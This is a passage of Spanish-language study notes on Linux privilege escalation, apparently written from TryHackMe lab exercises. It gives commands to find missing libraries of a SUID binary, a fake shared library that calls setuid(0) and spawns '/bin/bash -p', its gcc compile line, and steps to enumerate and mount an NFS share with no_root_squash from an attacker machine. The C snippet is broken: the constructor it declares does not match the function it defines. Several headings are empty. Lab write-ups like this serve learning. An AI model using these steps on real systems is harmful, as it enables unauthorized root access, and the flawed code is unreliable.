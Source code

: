 Encontrar archivos dentro de una carpeta
```s
find /home/pwn -type f -readable -ls 2>/dev/null
```
Para encontrar los explots, es buena idea buscar en google, exploitdb y github.

### [](#header-3)SUID / SGID Executables - Shared Object Injection
En este caso, probaremos la vulnerabilidad en el ejecutable del archivo SUID. Que se encuentra en "/usr/local/bin/suid-so",insertando esta ruta ejecutaremos el archivo.

Para visualizar las librerias que hacen falta de instalar, podemos usar el comando
```s
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
Creamos la ruta que hace falta.
Creamos la libreria falsa con el codigo siguiente
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void hijack() {
	setuid(0);
	system("/bin/bash -p");
}
```
Compilamos el archivo como objeto compartido con
```s
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Ejecutamos ahora el archivo de suid y tendremos nuestra shell.

### [](#header-3)SUID / SGID Executables - Environment Variables
### [](#header-3)SUID / SGID Executables - Abusing Shell Features (#1)
### [](#header-3)Passwords & Keys - History Files 
### [](#header-3)Passwords & Keys - Config Files 
### [](#header-3)Passwords & Keys - SSH Keys 
### [](#header-3)NFS
La configuracion del Network File Sharing se encuentra en /etc/exports, se crea con la instalacion de NFS y normalmente puede ser leido por todos los usuarios
El elemento de vector critico es la opcion "no_root_squash" Que por default, NFS cambia el usuario root a nfsnobody y deja el archivo operando con permisos de root. Si esta opcion esta presente en un archivo de escritura compartido, podemos crear un ejecutable con SUID y correrlo en el sistema.
```s
cat /etc/exports | grep no_root_squash
```
Para enumerar montables compartidos
```s
showmount -e 10.0.2.12
```
Vamos a montar uno de nuestros compartidos "no_root_squash" a nuestra maquina atacante y empezar a hacer nuestro ejecutable
```s
mkdir /tmp/backupsonattackermachine

mount -o rw 10.0.2.12:/backups /tmp/backupsonattackermachine
```
Un simple ejecutable que nos permita usar /bin/bash (Esto se encontró en uno de los laboratorios de Tryhackme)